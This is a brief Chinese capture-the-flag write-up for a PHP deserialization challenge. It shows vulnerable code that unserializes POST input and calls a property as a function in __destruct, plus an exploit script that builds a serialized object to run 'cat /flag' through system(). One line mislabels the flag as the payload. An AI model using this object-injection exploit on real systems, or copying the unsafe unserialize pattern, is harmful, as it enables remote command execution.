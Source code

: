 ```yaml
---
title: '[SWPUCTF 2022 新生赛]1z_unserialize'
date: '2025-05-27T20:28:32+08:00'
weight: 
draft: false
description: '[SWPUCTF 2022 新生赛]1z_unserialize'
---
```


题目代码：

```php
<?php
 
class lyh{
    public $url = 'NSSCTF.com';
    public $lt;
    public $lly;
     
     function  __destruct()
     {
        $a = $this->lt;

        $a($this->lly);
     }
    
    
}
unserialize($_POST['nss']);
highlight_file(__FILE__);
?> 
```

构造 payload：`NSSCTF{691a9620-742e-4191-90b9-d29a8da251eb}`

```php
<?php

class lyh{
    public $url = null;
    public $lt = "system";
    public $lly = "cat /flag";
}

echo serialize(new lyh());
```

获得 flag：`NSSCTF{691a9620-742e-4191-90b9-d29a8da251eb}`